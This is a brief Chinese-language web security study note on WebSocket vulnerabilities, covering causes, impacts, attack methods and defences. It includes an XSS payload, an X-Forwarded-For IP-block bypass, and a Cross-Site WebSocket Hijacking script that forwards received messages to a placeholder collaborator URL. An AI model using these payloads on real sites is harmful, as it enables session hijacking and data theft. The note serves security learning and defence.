 # WebSocket
## 成因
* 未預期的方法操作，導致出現漏洞。
    * 攔截修改內容。
    * 重送。
    * 連結以斷線的 socket。
## 影響
* 前端未驗證輸入，造成 XSS、SQLi 等攻擊。
* Cross-site WebSockets hijacking。
## 攻擊方法
### 修改內容導致 XSS
```
{"message":"<img src=1 onerror='alert(1)'>"}
```
### X-Forwarded-For 繞過 ip 封鎖
```
X-Forwarded-For: 1.1.1.1
```
### Cross-Site WebSocket hijacking
* WebSocket 版本的 CSRF。
* 成因是網站在 WebSocket handshake 僅根據 cookie 驗證，沒有其他額外驗證。
* 最後達成任意操作與取得資訊。
```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
## 防禦方法
* 使用 `wss://` 協定 (WebSockets over TLS)
* 指定 url，不包含使用者可控參數
* 加入 CSRF Token，避免 Cross-Site WebSocket hijacking
* 對雙向輸入皆進行驗證，避免 XSS、SQLi
---
###### tags: `web security`